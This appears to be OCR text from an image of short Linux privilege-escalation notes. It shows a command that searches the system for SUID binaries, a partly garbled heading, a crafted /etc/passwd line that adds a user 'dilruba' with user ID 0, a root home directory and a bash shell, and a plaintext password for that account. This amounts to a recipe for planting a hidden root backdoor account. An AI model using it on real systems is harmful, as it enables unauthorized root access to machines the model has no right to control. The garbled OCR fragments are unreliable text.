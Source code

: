 SHOWING SUID

find / -perm -u=s -type f 2>/dev/null

ROOTA QALXMAQ etc/passwd

dilruba:$1$.wwZIHut$tbO9u/NbSlGA/IkwxDcEX0:0:0:root:/root:/bin/bash

passwd----dil1123
